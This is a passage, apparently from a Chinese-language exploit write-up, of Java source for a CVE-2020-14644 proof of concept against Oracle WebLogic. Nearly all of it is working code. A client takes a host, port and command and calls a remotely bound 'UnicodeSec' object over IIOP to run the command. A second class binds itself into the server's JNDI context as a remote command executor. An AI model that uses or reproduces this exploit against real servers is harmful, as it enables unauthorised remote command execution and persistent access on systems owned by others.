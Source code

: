 ```java
        }
        //remote
        executeCmdFromWLC(command, iiopCtx);
    }

    private static void printUsage() {
        System.out.println("usage: java -jar cve-2020-14644.jar host port command");
        System.exit(-1);
    }

    private static void executeCmdFromWLC(String command, Context iiopCtx) throws NamingException, RemoteException {
        ClusterMasterRemote remote = (ClusterMasterRemote) iiopCtx.lookup("UnicodeSec");
        String response = remote.getServerLocation(command);
        System.out.println(response);
    }

    public static Context getInitialContext(String host, String port) throws Exception {
        String url = converUrl(host, port);
        Environment environment = new Environment();
        environment.setProviderUrl(url);
        environment.setEnableServerAffinity(false);
        Context context = environment.getInitialContext();
        return context;
    }

    public static String converUrl(String host, String port) {
        return "iiop://" + host + ":" + port;
    }
}
```

test.java：

该文件主要构件了一个test类，用于接收传入的command命令并执行调用。

```java
class test implements Remotable, ClusterMasterRemote {
    static {
        try {
            String bindName = "UnicodeSec";
            Context ctx = new InitialContext();
            test remote = new test();
            ctx.rebind(bindName, remote);
            System.out.println("installed");
        } catch (Exception var1) {
            var1.printStackTrace();
        }
    }

    public test() {

    }

    @Override
    public RemoteConstructor getRemoteConstructor() {
        return null;
    }

    @Override
    public void setRemoteConstructor(RemoteConstructor remoteConstructor) {

    }

```